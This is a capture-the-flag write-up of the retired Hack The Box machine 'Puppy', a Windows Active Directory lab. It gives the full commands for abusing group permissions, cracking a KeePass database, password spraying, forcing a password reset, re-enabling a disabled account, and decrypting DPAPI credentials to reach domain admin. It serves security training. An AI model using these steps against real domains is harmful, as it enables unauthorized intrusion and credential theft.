# Puppy — Hack The Box

<p align="left">
  
</p>

| | |
|---|---|
| **Platform** | Hack The Box |
| **Difficulty** | Medium |
| **OS** | Windows (Active Directory) |
| **Status** | ✅ Retired |
| **Key techniques** | `GenericWrite` group abuse, KeePass 4 (Argon2) cracking, `GenericAll` forced password change, re-enabling a disabled account with `bloodyAD`, backup credential hunt, DPAPI credential decryption |

---

## TL;DR

Puppy is an assumed-breach AD box — it starts with a low-privileged
credential (`levi.james:KingofAkron2025!`). `GenericWrite` on the
`Developers` group lets me add myself in and read a KeePass 4 database off
the `DEV` share; cracking it and spraying the entries reveals
`ant.edwards`. From there `GenericAll` over `adam.silver` lets me
force-change his password — the account is disabled, so I re-enable it with
`bloodyAD`. A website backup in `C:\Backups\` leaks `steph.cooper`'s LDAP
password in cleartext, and finally **DPAPI** credential decryption on
Steph's profile recovers the `steph.cooper_adm` admin twin account for
full domain compromise.

---

## Recon

```bash
nmap -sCV 10.129.232.75
```



A domain controller (`puppy.htb`). This is an assumed-breach scenario, so
I start with the given `levi.james` credential.

---

## BloodHound

Collected the domain with the starting credential:

```bash
bloodhound-python -u levi.james -p KingofAkron2025! -ns 10.129.232.75 -d puppy.htb -c All
```



Levi is a member of `HR`, which has `GenericWrite` over the `Developers`
group:



`GenericWrite` on a group means I can modify its membership and add myself:



---

## Foothold — join Developers, loot KeePass

Added Levi to `Developers` with Samba's `net rpc`:

```bash
net rpc group addmem "Developers" "levi.james" -U "puppy.htb"/"levi.james" -S "10.129.232.75"
```




Before joining, the `DEV` share was read-only; afterwards I could read it:




The share held `recovery.kdbx` — a **KeePass 4** database. Kali's stock
`keepass2john` doesn't support the KeePass 4 (Argon2) format:



The fix is the snap build of John, which handles Argon2:



```bash
snap run john-the-ripper.keepass2john recovery.kdbx > hash
snap run john-the-ripper hash --wordlist=rockyou.txt --format=KeePass
```




Opened it in `keepassxc` with `liverpool` — five sets of credentials:




Sprayed them with NetExec; only `ant.edwards:Antman2025!` was valid, and
that account has read/write on the `DEV` share:

```bash
nxc smb 10.129.232.75 -u usernames.txt -p passwords.txt --continue-on-success
```




---

## Lateral Movement

### ant.edwards → adam.silver

Re-ran BloodHound as `ant.edwards`: he's in `SENIOR DEVS`, which has
`GenericAll` over `adam.silver`:



`GenericAll` is full control, so I force-changed Adam's password:

```bash
net rpc password "adam.silver" "newP@ssword2026" -U "puppy.htb"/"ant.edwards" -S "10.129.232.75"
```



Login failed — the account is **disabled**:



`GenericAll` also covers `userAccountControl`, so I removed the
`ACCOUNTDISABLE` flag with `bloodyAD`:

```bash
bloodyad -u ant.edwards -p 'Antman2025!' --host 10.129.232.75 -d puppy.htb remove uac adam.silver -f ACCOUNTDISABLE
```



Adam now authenticates and has WinRM access:



```bash
evil-winrm -i 10.129.232.75 -u adam.silver -p newP@ssword2026
```



### adam.silver → steph.cooper

Enumerating from `C:\`, I found a non-standard `Backups\` folder with a
site backup ZIP:



`nms-auth-config.xml.bak` inside it held an LDAP bind password in
cleartext:

```xml
<bind-dn>cn=steph.cooper,dc=puppy,dc=htb</bind-dn>
<bind-password>ChefSteph2025!</bind-password>
```


Validated the credentials — WinRM works:




---

## Privilege Escalation — DPAPI credential decryption

winPEAS returned nothing useful, so I checked **DPAPI** manually. DPAPI
stores encrypted per-user credentials as blobs under
`AppData\...\Credentials\<GUID>`, protected by a master key under
`AppData\Roaming\Microsoft\Protect\<SID>\<GUID>`; the master key itself is
encrypted with a key derived from the user's password. So: password →
master key → blob → plaintext credentials.

Both folders are `hidden+system`, so `ls -Force` is needed. I found two
credential blobs and one master key:



Evil-WinRM's `download` has a known bug with hidden+system files, so I
pushed them to an SMB server on Kali instead:

```bash
impacket-smbserver share ./ -smb2support
```




Decrypted the master key with Steph's password, then used the resulting
key to decrypt each blob. The first blob was a WindowsLive cache token
(junk); the second revealed real domain credentials:

```bash
impacket-dpapi masterkey -file masterkey.bin -sid <SID> -password 'ChefSteph2025!'
impacket-dpapi credential -file blob2.bin -key 0x<decrypted-key>
```



The credential is for `steph.cooper_adm` — the **admin twin account** of
`steph.cooper`, a common AD pattern pairing a user with a privileged
version of the same identity.

### Shell as Administrator

```bash
evil-winrm -i 10.129.64.242 -u steph.cooper_adm -p '<password>'
```

